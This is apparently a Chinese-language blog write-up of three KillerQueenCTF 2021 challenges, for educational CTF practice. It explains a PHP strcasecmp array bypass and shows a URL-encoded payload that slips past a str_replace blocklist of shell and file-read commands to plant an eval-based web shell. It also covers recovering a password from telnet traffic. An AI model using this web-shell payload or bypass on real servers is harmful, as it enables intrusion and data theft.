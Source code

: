 ```yaml
---
title: "KillerQueenCTF2021 Wp"
slug: "killerqueenctf2021-wp"
description: "water ,water, water..."
date: 2021-11-07T14:39:15+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## web/Just Not My Type

> I really don't think we're compatible ([Link](http://143.198.184.186:7000/))

```php
<?php
$FLAG = "shhhh you don't get to see this locally";

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
    $password = $_POST["password"];
    if (strcasecmp($password, $FLAG) == 0)
    {
        echo $FLAG;
    }
    else
    {
        echo "That's the wrong password!";
    }
}
?>
```

我们的老朋友`strcasecmp()`函数，它和`strcmp()`函数一样用于比较两个字符串，区别是后者会区分大小写；绕过方式是传入数组，这样会使两个函数无法处理而返回null

![image-20211030104447923](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211030104447923.png)

`flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

## web/PHat Pottomed Girls

> Now it's attempt number 3 and this time with a Queen reference! (flag is in the root directory) ([Link](http://143.198.184.186:7001/))

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

简单看一下流程，`filter()`函数会对我们post传入的notewrite参数（也就是会被写入的文件内容）进行比较严格的过滤，文件名是`generateRandomString()`生成的随机名字，但是不重要，它会自动拼上.php的后缀并且把名字写到`session['notes']`中；所以我们唯一需要处理的就是`filter()`函数的绕过了

尴尬的是这个`filter()`跟个筛子一样……首先是没有过滤`eval()`，其次是`str_replace()`也是水的一批

payload:

```
notewrite=%3C%3C%3C%3C%3F%3F%3F%3Fphp+%40eval%28%24_POST%5B%27wuhu%27%5D%29%3B
```

之后连上蚁剑即可查看根目录下的flag.php

`flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`

## forensics/Obligatory Shark

> remember to wrap the flag

看tcp流，telnet明文流量

![image-20211030120130169](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211030120130169.png)

33a465747cb15e84a26564f57cda0988

![image-20211107144316344](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107144316344.png)

`flag{dancingqueen}`

